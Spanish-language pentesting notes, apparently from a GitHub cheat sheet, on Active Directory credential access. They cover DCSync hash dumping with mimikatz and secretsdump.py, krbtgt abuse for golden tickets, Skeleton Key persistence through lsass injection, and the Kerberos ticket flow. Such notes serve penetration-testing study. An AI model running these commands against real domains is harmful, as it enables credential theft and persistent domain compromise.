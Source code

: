 **Considerar que pueden haber multiples masterkey.**

# CREDENTIAL ACCESS (DOMAIN):

## DCSYNC:
Proceso de replicación nativa de servidores AD en windows, donde se requieren un usario con permisos:

- DS-Replication-Get-Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

Ya sea para un usuario, o para un servidor AD que este dentro de un grupo con permisos asignados.

La explotación puede ser tanto local y remoto.

### Local:
```
lsadump::dcsync /user:dcorp o krbtgt(u otro usuario pero en este caso el hash de ntlm de usuario krbtgt es el requerido para emitir golden tickets)
```

### Remoto:
```
> secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
```

NOTA: un escenario que podriamos toparnos en un pentest es... 
1- Conseguir un usuario y contraseña del AD con solo permisos de replicación.
2- Con estos permisos obtengamos la replicación (HASH NTML) de un usuario elevador como el de krbtgt.
3- En base a este usuario krbtgt logremos emitir goldentickets del domain admin.

## Key Skeleton attack:
En resumen el ataque es "sencillo", lo que se hace es modificar mediante una inyección en memoria a lsass (encargado de la autenticación) haciendo que ademas de permitir la autenticación por medio de la contraseña guardada en el AD, tambien permita la autenticación con una "master key" inyectada.
Esto hace que el atacante pueda autenticarse con la master key usando cualquier usuario, teniendo permanencia hasta que el AD se reinicie o el proceso inyectado sea matado.
```
mimikatz> privilege::debug
mimikatz> misc::skeleton

Empire:dc> usemodule powershell/persistence/misc/skeleton_key 
```

## KERBEROS ATTACK:

### Proceso simplificado de emisión de tickets:

- (Usuario) → envía: Credenciales (nombre de usuario y contraseña cifrada) → (Authentication Service, AS parte del Key Distribution Center (KDC))
- (AS) → emite: Ticket Granting Ticket (TGT) → (Usuario, almacena el ticket localmente)
- (Usuario) → envía: TGT → al (Ticket Granting Service - TGS, parte del Key Distribution Center (KDC))
- (TGS) → emite: Service Ticket (ST) → (Usuario, almacena el ticket localmente)
- (Usuario) → envía: Service Ticket (ST) → (Servidor de servicio unido a dominio)
